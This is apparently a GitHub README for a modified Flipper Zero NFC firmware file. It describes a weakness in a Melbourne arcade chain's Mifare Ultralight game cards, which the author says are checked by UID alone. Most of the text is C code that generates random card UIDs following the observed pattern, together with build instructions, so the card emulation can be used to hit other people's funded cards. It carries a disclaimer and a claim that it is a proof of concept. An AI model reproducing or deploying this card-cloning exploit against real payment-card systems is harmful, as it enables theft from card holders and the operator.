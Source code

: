 # flipper_NFC_gamecard_hack

In Melbourne AU we have a popular arcade chain that uses the EMBED card system with Mifare ULTRALIGHT cards for game cards. I did some checks with the small pool of cards I have and found the last 2 octets are not changing from 0x00.

This is a modded file for the built in flipper NFC app that adds the option to create a random game card based off my findings. In theory it should work but who knows. I dont think it checks data stored on the card.

DO NOT USE THIS TO STEAL OTHER PEOPLES MONEY. THIS IS A PROOF OF CONCEPT TO SHOW IN INSECURITY OF ONLY USING THE UID IN A CARD BASED SYSTEM. I HAVE NOT TESTED THIS AT ALL. THE CHANCE OF YOU FINDING A CARD THAT HAS MONEY, IS A STAFF, A TECH OR A VALID CARD IS SUPER LOW. YOU WILL PROBABLY GET SPOTTED BY A STAFF MEMBER IF YOU ARE TRYING THIS. IT IS NOT MY RESPONSIBILITY IF YOU GET CAUGHT, FINED, BANNED, JAILED OR THE EARTH OPENS UP AND SWALLOWS YOU WHOLE.


Instructions:
Copy this file over the top of the original file and build the firmware. tested with unleashed 018

Do not copy to the flipper. nothing will change.









My changes to the original file are below.

Added: 

```static void nfc_generate_mf_tz_uid(uint8_t* uid) {
    uid[0] = NXP_MANUFACTURER_ID;
    furi_hal_random_fill_buf(&uid[1], 6);
    // Timezone use 00 on last 2 octets with the sample size ive tested. 
    uid[5] = 0x00;
    uid[6] = 0x00;
}
```

```static void nfc_generate_mf_tz_common(NfcDeviceData* data) {
    data->nfc_data.type = FuriHalNfcTypeA;
    data->nfc_data.interface = FuriHalNfcInterfaceRf;
    data->nfc_data.uid_len = 7;
    nfc_generate_mf_tz_uid(data->nfc_data.uid);
    data->nfc_data.atqa[0] = 0x44;
    data->nfc_data.atqa[1] = 0x00;
    data->nfc_data.sak = 0x00;
    data->protocol = NfcDeviceProtocolMifareUl;
}
```

```static void nfc_generate_mf_tz_orig(NfcDeviceData* data) {
    nfc_generate_common_start(data);
    nfc_generate_mf_tz_common(data);

    MfUltralightData* mful = &data->mf_ul_data;
    mful->type = MfUltralightTypeUnknown;
    mful->data_size = 16 * 4;
    mful->data_read = mful->data_size;
    nfc_generate_mf_ul_copy_uid_with_bcc(data);
    // TODO: what's internal byte on page 2?
    memset(&mful->data[4 * 4], 0xFF, 4);
}
```

```static const NfcGenerator mf_tz_generator = {
    .name = "Mifare (Timezone)",
    .generator_func = nfc_generate_mf_tz_orig,
    .next_scene = NfcSceneMfUltralightMenu,
};
```

And added "&mf_tz_generator," to "const NfcGenerator* const nfc_generators[] = {"

